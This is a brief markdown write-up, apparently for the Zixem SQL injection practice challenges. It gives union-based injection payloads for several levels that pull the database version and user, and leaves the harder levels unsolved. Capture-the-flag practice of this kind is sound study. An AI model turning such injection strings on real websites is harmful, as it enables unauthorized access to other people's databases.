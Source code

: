 ## Zixem SQLi

[[Zixem SQLi](http://www.zixem.altervista.org/SQLi/)]

> #### RULES
>
> Use only **UNION BASED!**
>
> Your mission is to select only the **version** & **user** and to **take screenshot** as proof.

## Write Up

#### SQLi challenges

| [Level 1](http://www.zixem.altervista.org/SQLi/level1.php?id=1) | Super Easy |
| ------- | ---------- |

 `?id=-9999 union select version(),user(),3; --`

| [Level 2](http://www.zixem.altervista.org/SQLi/level2.php?showprofile=4) | Easy |
| ------- | ---------- |

 `?showprofile=-9999' union select user(),version(),3,4 -- -`

| [Level 3](http://www.zixem.altervista.org/SQLi/level3.php?item=3) | Medium |
| ------- | ---------- |

 `?item=-9999' unionon select user(),version(),3,4; -- -`

| [Level 4](http://www.zixem.altervista.org/SQLi/level4.php?ebookid=7) | Normal |
| ------- | ---------- |

 `?ebookid=-9999' union select user(),version(),3,4,5; -- -`

| [Level 7](http://www.zixem.altervista.org/SQLi/level7.php?id=1) | Medium |
| ------- | ---------- |

In viewsource mode:
 
 `?id=-9999 union select 1,user(),3 ; -- -`
 
 `?id=-9999 union select 1,version(),3 ; -- -`

| [Level 8](http://www.zixem.altervista.org/SQLi/lvl8.php?id=1) | Hard |
| ------- | ---------- |

| [Level 9](http://www.zixem.altervista.org/SQLi/lvl9.php?id=1) | Medium |
| ------- | ---------- |

| [Level 10](http://www.zixem.altervista.org/SQLi/lvl10.php?x=ISwwYGAKYAo%3D) | Pro |
| ------- | ---------- |

#### BF challenges

| [Level 5](http://www.zixem.altervista.org/SQLi/login_lvl5.php) | Hard |
| ------- | ---------- |

#### SQLi-Blind challenges

| [Level 6](http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10) | Expererinced |
| ------- | ---------- |
